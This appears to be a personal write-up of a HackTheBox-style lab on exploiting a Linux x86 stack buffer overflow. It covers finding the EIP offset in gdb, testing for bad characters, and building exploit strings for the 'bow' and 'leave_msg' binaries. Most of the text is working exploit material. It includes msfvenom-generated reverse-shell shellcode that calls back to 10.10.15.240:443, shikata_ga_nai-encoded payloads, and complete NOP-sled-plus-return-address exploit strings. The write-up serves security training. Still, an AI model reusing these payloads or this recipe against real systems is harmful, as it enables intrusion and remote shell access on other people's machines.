 # Buffer Overflow Linux x86

## Introduction

## Information


## Taking control EIP


```bash
htb-student@nixbof32:~$ gdb -q bow
Reading symbols from bow...(no debugging symbols found)...done.
(gdb) r $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab <snip>"')
Starting program: /home/htb-student/bow $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab <snip>"')

Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
(gdb) info registers
eax            0x1      1
ecx            0xffffd6f0       -10512
edx            0xffffd0b8       -12104
ebx            0x33694232       862536242
esp            0xffffd020       0xffffd020
ebp            0x42346942       0x42346942
esi            0xf7fc2000       -134471680
edi            0x0      0
eip            0x69423569       0x69423569
eflags         0x10282  [ SF IF RF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb)

❯ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.15.240 LPORT=443 --platform linux --arch x86 --format c
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
unsigned char buf[] =
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd"
"\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x0a\x0f"
"\xf0\x68\x02\x00\x01\xbb\x89\xe1\xb0\x66\x50\x51\x53\xb3"
"\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f"
"\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80";
```


generating with python code

offset = 1040
nops = 100
shellcode = 150
eip = 4

$(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90"*100 + "\x44"*150 + "\x66"*4')
## Performing exploitation
```bash
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

run $(python -c 'print "\x55" * (1040 - 252 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66"*4')


now to check the esp and the bad characters

missing \x00\x09\x0a\x20


❯ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.15.240 LPORT=443 --platform linux --arch x86 --format c --bad-chars "\x00\x09\x0a\x20"
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
unsigned char buf[] =
"\xda\xc5\xd9\x74\x24\xf4\xbf\x95\xe9\xee\x24\x58\x2b\xc9\xb1\x12\x31\x78\x17\x03\x78\x17\x83\x7d\x15\x0c\xd1\x4c\x3d\x26\xf9\xfd\x82\x9a\x94\x03\x8c\xfc\xd9\x65\x43\x7e\x8a\x30\xeb\x40\x60\x42\x42\xc6\x83\x2a\x5f\x32\x7b\x5a\x37\x40\x83\x9b\x73\xcd\x62\x2b\xe5\x9e\x35\x18\x59\x1d\x3f\x7f\x50\xa2\x6d\x17\x05\x8c\xe2\x8f\xb1\xfd\x2b\x2d\x2b\x8b\xd7\xe3\xf8\x02\xf6\xb3\xf4\xd9\x79"





run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90"*100 + "\xda\xc5\xd9\x74\x24\xf4\xbf\x95\xe9\xee\x24\x58\x2b\xc9\xb1\x12\x31\x78\x17\x03\x78\x17\x83\x7d\x15\x0c\xd1\x4c\x3d\x26\xf9\xfd\x82\x9a\x94\x03\x8c\xfc\xd9\x65\x43\x7e\x8a\x30\xeb\x40\x60\x42\x42\xc6\x83\x2a\x5f\x32\x7b\x5a\x37\x40\x83\x9b\x73\xcd\x62\x2b\xe5\x9e\x35\x18\x59\x1d\x3f\x7f\x50\xa2\x6d\x17\x05\x8c\xe2\x8f\xb1\xfd\x2b\x2d\x2b\x8b\xd7\xe3\xf8\x02\xf6\xb3\xf4\xd9\x79" + "\x66"*4')


run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90"*100 + "\xda\xc5\xd9\x74\x24\xf4\xbf\x95\xe9\xee\x24\x58\x2b\xc9\xb1\x12\x31\x78\x17\x03\x78\x17\x83\x7d\x15\x0c\xd1\x4c\x3d\x26\xf9\xfd\x82\x9a\x94\x03\x8c\xfc\xd9\x65\x43\x7e\x8a\x30\xeb\x40\x60\x42\x42\xc6\x83\x2a\x5f\x32\x7b\x5a\x37\x40\x83\x9b\x73\xcd\x62\x2b\xe5\x9e\x35\x18\x59\x1d\x3f\x7f\x50\xa2\x6d\x17\x05\x8c\xe2\x8f\xb1\xfd\x2b\x2d\x2b\x8b\xd7\xe3\xf8\x02\xf6\xb3\xf4\xd9\x79" + "\x78\xd6\xff\xff"')



the register for the eip => 0xffffd678 \x78\xd6\xff\xff


## Skill Assessment

msf-pattern_create -l 2060

htb-student@nixbof32skills:~$ gdb -q leave_msg
Reading symbols from leave_msg...(no debugging symbols found)...done.
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4<snip>3Cq4Cq5Cq

Starting program: /home/htb-student/leave_msg Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4<snip>3Cq4Cq5Cq

Program received signal SIGSEGV, Segmentation fault.
0x56555700 in leavemsg ()
(gdb) info registers
eax            0x0      0
ecx            0x15     21
edx            0x56558158       1448444248
ebx            0x43347143       1127510339
esp            0xffffcca0       0xffffcca0
ebp            0x71433571       0x71433571
esi            0xffffcce0       -13088
edi            0x0      0
eip            0x56555700       0x56555700 <leavemsg+115>
eflags         0x10286  [ PF SF IF RF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb)


❯ msf-pattern_offset -q 0x71433571
[*] Exact match at offset 2056

$(python -c 'print "\x55"*(2064 - 100 - 95 - 4) + "\x90"*100 + "\xbe\x07\xa2\xb6\xad\xda\xc2\xd9\x74\x24\xf4\x58\x33\xc9\xb1\x12\x83\xc0\x04\x31\x70\x0e\x03\x77\xac\x54\x58\x46\x6b\x6f\x40\xfb\xc8\xc3\xed\xf9\x47\x02\x41\x9b\x9a\x45\x31\x3a\x95\x79\xfb\x3c\x9c\xfc\xfa\x54\x15\xf5\xf3\x54\x41\x0b\x0c\x95\x29\x82\xed\x25\x2b\xc5\xbc\x16\x07\xe6\xb7\x79\xaa\x69\x95\x11\x5b\x45\x69\x89\xcb\xb6\xa2\x2b\x65\x40\x5f\xf9\x26\xdb\x41\x4d\xc3\x16\x01" +"\x7c\xd6\xff\xff"')



"\xbe\x07\xa2\xb6\xad\xda\xc2\xd9\x74\x24\xf4\x58\x33\xc9\xb1\x12\x83\xc0\x04\x31\x70\x0e\x03\x77\xac\x54\x58\x46\x6b\x6f\x40\xfb\xc8\xc3\xed\xf9\x47\x02\x41\x9b\x9a\x45\x31\x3a\x95\x79\xfb\x3c\x9c\xfc\xfa\x54\x15\xf5\xf3\x54\x41\x0b\x0c\x95\x29\x82\xed\x25\x2b\xc5\xbc\x16\x07\xe6\xb7\x79\xaa\x69\x95\x11\x5b\x45\x69\x89\xcb\xb6\xa2\x2b\x65\x40\x5f\xf9\x26\xdb\x41\x4d\xc3\x16\x01"


0xffffd67c

\x7c\xd6\xff\xff


offset = b'\x55' *  (2064 - 100 - 95 -4)
nops = b'\x90'*100
shellcode = b"\xbe\x07\xa2\xb6\xad\xda\xc2\xd9\x74\x24\xf4\x58\x33\xc9\xb1\x12\x83\xc0\x04\x31\x70\x0e\x03\x77\xac\x54\x58\x46\x6b\x6f\x40\xfb\xc8\xc3\xed\xf9\x47\x02\x41\x9b\x9a\x45\x31\x3a\x95\x79\xfb\x3c\x9c\xfc\xfa\x54\x15\xf5\xf3\x54\x41\x0b\x0c\x95\x29\x82\xed\x25\x2b\xc5\xbc\x16\x07\xe6\xb7\x79\xaa\x69\x95\x11\x5b\x45\x69\x89\xcb\xb6\xa2\x2b\x65\x40\x5f\xf9\x26\xdb\x41\x4d\xc3\x16\x01"
eip = b'\x7c\xd6\xff\xff'

exploit = offset + nops + shellcode + eip
